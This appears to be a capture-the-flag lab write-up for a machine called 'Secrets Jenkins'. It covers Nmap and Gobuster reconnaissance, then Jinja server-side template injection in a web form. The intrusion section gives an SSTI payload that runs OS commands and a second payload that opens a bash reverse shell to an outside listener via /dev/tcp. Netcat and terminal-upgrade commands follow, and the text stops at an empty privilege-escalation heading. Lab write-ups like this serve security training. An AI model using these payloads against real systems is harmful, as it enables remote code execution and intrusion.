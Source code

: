 # Secrets Jenkins


## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
80/tcp   open  http    syn-ack ttl 64
3000/tcp open  ppp     syn-ack ttl 64
5000/tcp open  upnp    syn-ack ttl 64

```

## Examining ports

We are going to explore the version of this service. For this, we execute the following command:

```ruby
nmap -sCV -p5000 172.17.0.2 
```
we obtain this dataset:

![alt text](Imagenes/Pingu_1.png)


## Analyzing web page

When we enter the web page, we obtain the following:

It looks like a form created with `Jinja`.
![alt text](Imagenes/Pingu_2.png)

We can execute HTML injection to verify if it has any filters.

![alt text](Imagenes/Pingu_3.png)

If we search for directories on the site with the Gobuster tool, we find `/console`

We need a password to access the console.
![alt text](Imagenes/Pingu_4.png)


## Intrusion

We can try to access with `SSTI (Server Side Template Injection)`

We can run a command to execute an SSTI like this:

```ruby
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

we obtain:

![alt text](Imagenes/Pingu_5.png)

Successfully, we obtain a response from the server showing our user.

Now we are going to prepare the reverse shell to connect with us.

First, we need to use the nc tool:

```ruby
nc -lvnp 1234
```

We can exploit with the following command:

```ruby
{{request.application.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/192.168.139.130/1234 0>&1"').read()}}
```

![alt text](Imagenes/Pingu_6.png)


# TTY processing

To make it more comfortable for us, we're going to treat the terminal so that there are no errors in some commands and they work.

For this, we first execute the following order:

```ruby 
script /dev/null -c bash
```

We press ctrl + Z to exit the terminal and do the following commands:

```ruby 
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

We will have a more comfortable terminal.

## Privilege Escalation

